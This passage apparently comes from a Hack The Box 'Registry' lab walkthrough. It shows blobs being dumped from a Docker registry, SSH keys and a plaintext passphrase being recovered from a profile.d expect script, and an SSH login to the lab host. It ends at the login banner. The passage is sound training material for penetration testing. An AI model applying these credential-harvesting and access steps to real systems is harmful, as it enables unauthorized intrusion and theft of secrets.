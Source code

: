 [*] Dumping blob sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0 to ./f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0/f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0.tar.gz
	[+] Log File: ./f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0.log
	[*] Extracting dumped blob

[*] Dumping blob sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a to ./d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a/d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a.tar.gz
	[+] Log File: ./d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a.log
	[*] Extracting dumped blob

[*] Dumping blob sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797 to ./8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797/8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797.tar.gz
	[+] Log File: ./8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797.log
	[*] Extracting dumped blob

[*] Dumping blob sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff to ./f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff/f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff.tar.gz
	[+] Log File: ./f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff.log
	[*] Extracting dumped blob

*** ENJOY! ***
```

While digging through the blob directories, we found the following:

1) SSH key pairs in the *2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791/root/.ssh/* directory.

2) Some scripts of interest (01-ssh.sh and 02-ssh.sh) under *2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791/etc/profile.d/*

Inspecting the second scripts gives us the passphrase for the *id_rsa* private key we found. 

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ cat 2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791/etc/profile.d/02-ssh.sh
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```
Private key passphrase: ```GkOcz221Ftb3ugog```


Let's try these two together:

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ ssh -i /home/kali/Documents/HTB-Labs/Registry/2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791/root/.ssh/id_rsa bolt@registry.htb
Enter passphrase for key '/home/kali/Documents/HTB-Labs/Registry/2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)
